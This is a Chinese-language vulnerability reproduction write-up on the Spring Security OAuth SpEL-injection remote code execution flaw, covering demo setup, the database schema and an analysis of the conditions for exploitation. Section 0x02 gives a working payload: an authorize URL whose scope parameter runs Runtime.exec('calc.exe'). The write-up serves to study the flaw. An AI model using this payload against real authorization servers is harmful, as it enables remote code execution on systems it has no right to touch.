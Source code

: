 # springframework.security.oauth
## 0x00 前言

存在问题的依赖包

![1565768124375](README.assets/1565768124375.png)



## 0x01 环境准备



首先先把demo搭建起来

```
https://github.com/wanghongfei/spring-security-oauth2-example
```

对spring不是很熟悉，找配置文件修改还花了点时间

打开idea，在初始界面选择import  选择demo里的pom.xml，然后花点时间等待就好了了了。。。大概得要个10几分钟。

在这段时间里，可以先把mysql新建一下：

创建脚本：

```
CREATE SCHEMA IF NOT EXISTS `alan-oauth` DEFAULT CHARACTER SET utf8 ;
USE `alan-oauth` ;

-- -----------------------------------------------------
-- Table `alan-oauth`.`clientdetails`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`clientdetails` (
  `appId` VARCHAR(128) NOT NULL,
  `resourceIds` VARCHAR(256) NULL DEFAULT NULL,
  `appSecret` VARCHAR(256) NULL DEFAULT NULL,
  `scope` VARCHAR(256) NULL DEFAULT NULL,
  `grantTypes` VARCHAR(256) NULL DEFAULT NULL,
  `redirectUrl` VARCHAR(256) NULL DEFAULT NULL,
  `authorities` VARCHAR(256) NULL DEFAULT NULL,
  `access_token_validity` INT(11) NULL DEFAULT NULL,
  `refresh_token_validity` INT(11) NULL DEFAULT NULL,
  `additionalInformation` VARCHAR(4096) NULL DEFAULT NULL,
  `autoApproveScopes` VARCHAR(256) NULL DEFAULT NULL,
  PRIMARY KEY (`appId`))
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_access_token`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_access_token` (
  `token_id` VARCHAR(256) NULL DEFAULT NULL,
  `token` BLOB NULL DEFAULT NULL,
  `authentication_id` VARCHAR(128) NOT NULL,
  `user_name` VARCHAR(256) NULL DEFAULT NULL,
  `client_id` VARCHAR(256) NULL DEFAULT NULL,
  `authentication` BLOB NULL DEFAULT NULL,
  `refresh_token` VARCHAR(256) NULL DEFAULT NULL,
  PRIMARY KEY (`authentication_id`))
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_approvals`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_approvals` (
  `userId` VARCHAR(256) NULL DEFAULT NULL,
  `clientId` VARCHAR(256) NULL DEFAULT NULL,
  `scope` VARCHAR(256) NULL DEFAULT NULL,
  `status` VARCHAR(10) NULL DEFAULT NULL,
  `expiresAt` DATETIME NULL DEFAULT NULL,
  `lastModifiedAt` DATETIME NULL DEFAULT NULL)
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_client_details`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_client_details` (
  `client_id` VARCHAR(128) NOT NULL,
  `resource_ids` VARCHAR(256) NULL DEFAULT NULL,
  `client_secret` VARCHAR(256) NULL DEFAULT NULL,
  `scope` VARCHAR(256) NULL DEFAULT NULL,
  `authorized_grant_types` VARCHAR(256) NULL DEFAULT NULL,
  `web_server_redirect_uri` VARCHAR(256) NULL DEFAULT NULL,
  `authorities` VARCHAR(256) NULL DEFAULT NULL,
  `access_token_validity` INT(11) NULL DEFAULT NULL,
  `refresh_token_validity` INT(11) NULL DEFAULT NULL,
  `additional_information` VARCHAR(4096) NULL DEFAULT NULL,
  `autoapprove` VARCHAR(256) NULL DEFAULT NULL,
  PRIMARY KEY (`client_id`))
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_client_token`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_client_token` (
  `token_id` VARCHAR(256) NULL DEFAULT NULL,
  `token` BLOB NULL DEFAULT NULL,
  `authentication_id` VARCHAR(128) NOT NULL,
  `user_name` VARCHAR(256) NULL DEFAULT NULL,
  `client_id` VARCHAR(256) NULL DEFAULT NULL,
  PRIMARY KEY (`authentication_id`))
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_code`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_code` (
  `code` VARCHAR(256) NULL DEFAULT NULL,
  `authentication` BLOB NULL DEFAULT NULL)
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_refresh_token`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_refresh_token` (
  `token_id` VARCHAR(256) NULL DEFAULT NULL,
  `token` BLOB NULL DEFAULT NULL,
  `authentication` BLOB NULL DEFAULT NULL)
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;
```

然后在`oauth_client_details`表中插入记录:

```
# client_id, resource_ids, client_secret, scope, authorized_grant_types, web_server_redirect_uri, authorities, access_token_validity, refresh_token_validity, additional_information, autoapprove
'client', NULL, 'secret', 'app', 'authorization_code', 'http://www.baidu.com', NULL, NULL, NULL, NULL, NULL
```

这里为NULL的不用填就可以了，创建的时候默认就是NULL



这个时候idea也差不多导入完了，要想跑通整个流程，还需要分配 `client_id`, `client_secret`才行。Spring Security OAuth2的配置方法是编写`@Configuration`类继承`AuthorizationServerConfigurerAdapter`，然后重写`void configure(ClientDetailsServiceConfigurer clients)`方法，如：

```
@Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
        clients.inMemory() // 使用in-memory存储
                .withClient("client") // client_id
                .authorizedGrantTypes("authorization_code") // 该client允许的授权类型
                .scopes(); // 允许的授权范围
    }
```



修改数据库的配置信息（修改源代码中的`application.properties`中的数据库的用户名和密码参数为本机的数据库和密码的参数。）：

![1565768675076](README.assets/1565768675076.png)

然后启动就可以看到界面了。

![1565768738764](README.assets/1565768738764.png)

授权页面：

```
localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com
```







## 0x02 利用过程



**payload：**

```
http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```

输入完以后，会重定向到login页面，随意输入username和password，点击login，则会触发payload

其中scope就是我们的rce的payload

```
${T(java.lang.Runtime).getRuntime().exec("calc.exe")}
```











## 0x03 漏洞分析



首先了解下什么是OAuth2，OAuth2是提供第三方登录的一个协议，其基本流程如下图所示：

![1565769796945](README.assets/1565769796945.png)

​	当用户使用客户端时，客户端要求授权，即图中的AB。接着客户端通过在B中获得的授权向认证服务器申请令牌，即access token。最后在EF阶段，客户端带着access token向资源服务器请求并获得资源。

​	https://zhuanlan.zhihu.com/p/20913727

​	在获得access token之前，客户端需要获得用户的授权。根据标准，有四种授权方式：授权码模式（authorization code）、简化模式（implicit）、密码模式（resource owner password credentials）、客户端模式（client credentials）。在这几种模式中，当客户端将用户导向认证服务器时，都可以带上一个可选的参数scope，这个参数用于表示客户端申请的权限的范围。

​	在spring-security-oauth的默认配置中scope参数默认为空：

```
scope: The scope to which the client is limited. If scope is undefined or empty (the default) the client is not limited by scope.
```





**利用条件**

1. 需要`scopes`没有配置白名单，否则直接`Invalid scope:xxx`。

   不过大部分OAuth都会限制授权的范围，即指定scopes。这个例子是因为我们没有指定OAuth所以才顺利复现。

2. 使用了默认的Approval Endpoint，生成对应的template，在spelview中注入spel表达式。不过可能绝大部分使用者都会重写这部分来满足自己的需求，从而导致spel注入不成功。

3. 角色是授权服务器（例如@EnableAuthorizationServer）







## 0x04 参考连接

https://paper.seebug.org/597/